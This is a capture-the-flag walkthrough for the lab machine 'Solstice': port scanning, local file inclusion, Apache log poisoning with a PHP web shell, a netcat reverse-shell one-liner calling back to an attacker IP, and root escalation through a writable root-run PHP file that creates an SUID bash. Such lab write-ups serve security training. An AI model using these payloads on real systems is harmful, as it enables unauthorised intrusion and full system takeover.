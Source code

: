```yaml
---
layout: default
title: Solstice
parent: Proving Grounds Play
nav_order: 33
---
```


# Scanning

---

```bash
──(vagrant㉿kali)-[~/Documents/PG/PLAY/solstice]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.222.72
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 23:19 EDT
Nmap scan report for 192.168.222.72
Host is up (0.086s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
21/tcp    open  ftp        pyftpdlib 1.5.6                                                              | ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.222.72:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp       Exim smtpd
| smtp-commands: solstice Hello nmap.scanme.org [192.168.45.217], SIZE 52428800, 8BITMIME, PIPELINING, C
HUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http       Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
2121/tcp  open  ftp        pyftpdlib 1.5.6
| ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.222.72:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
3128/tcp  open  http-proxy Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
54787/tcp open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
62524/tcp open  ftp        FreeFloat ftpd 1.00
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

# Enumeration

---

## 8593 - HTTP

Clicking the _Book List_ link directs to a page that looks susceptible to LFI.

![main](../../../assets/images/ctfs/proving_grounds/solstice/main.png)

![book_list](../../../assets/images/ctfs/proving_grounds/solstice/book_list.png)

Running a simple test we can display _/etc/passwd_

![lfi](../../../assets/images/ctfs/proving_grounds/solstice/lfi.png)

# Exploitation

---

## LFI

Start by poisoning the Apache2 access log with a PHP web shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/solstice]
└─$ nc -nv 192.168.222.72 80
(UNKNOWN) [192.168.222.72] 80 (http) open
GET /<?php system($_GET['cmd']); ?>
HTTP/1.1 400 Bad Request
Date: Sat, 04 Nov 2023 03:37:05 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>

```

View _/var/log/apache2/access.log_ to see the 400 GET request we sent through netcat.

![log](../../../assets/images/ctfs/proving_grounds/solstice/log.png)

Test RCE with the PHP web shell in the access log.

```bash
URL: http://192.168.222.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=id
```

![rce](../../../assets/images/ctfs/proving_grounds/solstice/rce.png)

Use _revshellgen_ to generate a nc-mknod reverse shell one-liner.

```bash
# Generate reverse shell-oneliner
revshellgen -i 192.168.45.191 -p 9001 -t nc-mknod | tail -n 1

# URL encode the payload
urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.191 9001 1>/tmp/l"

# Run the following URL to get a reverse shell
URL: 192.168.170.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.191%209001%201%3E%2Ftmp%2Fl
```

After executing the payload in our PHP web shell we get a reverse shell on our netcat listener.

![shell](../../../assets/images/ctfs/proving_grounds/solstice/shell.png)

# Post-Exploitation

---

## SUID Permissions

```bash
find / -perm -u=s -type f 2>/dev/null
```

The SUID bit on _/var/tmp/sv_ is interesting

![suid](../../../assets/images/ctfs/proving_grounds/solstice/suid.png)

## Enumerate Processes

```bash
ps aux | grep -i 'root' --color=auto
```

![proc](../../../assets/images/ctfs/proving_grounds/solstice/proc.png)

We know from checking SUID directories that _/var/tmp/sv_ has the SUID bit set.

We have full read/write to _/var/tmp/sv/index.php_

![index](../../../assets/images/ctfs/proving_grounds/solstice/index.png)

Edit _index.php_ to execute a PHP system command that generates a root shell by copying _/bin/bash_ to _/var/tmp/bash_

```bash
<?php
echo "You've been pwned!!!!";
system("cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash");
?>
```

![nano](../../../assets/images/ctfs/proving_grounds/solstice/nano.png)

We now need to _curl_ the internally accessible web service running on port 57 in order to execute _index.php_ and generate our
malicious _/var/tmp/bash_ binary.

![curl](../../../assets/images/ctfs/proving_grounds/solstice/curl.png)

Navigate to _/var/tmp_ to see our exploit.

![var_tmp](../../../assets/images/ctfs/proving_grounds/solstice/var_tmp.png)

Execute our malicious _bash_ binary with the _-p_ flag to persist root privileges

![bash](../../../assets/images/ctfs/proving_grounds/solstice/bash.png)
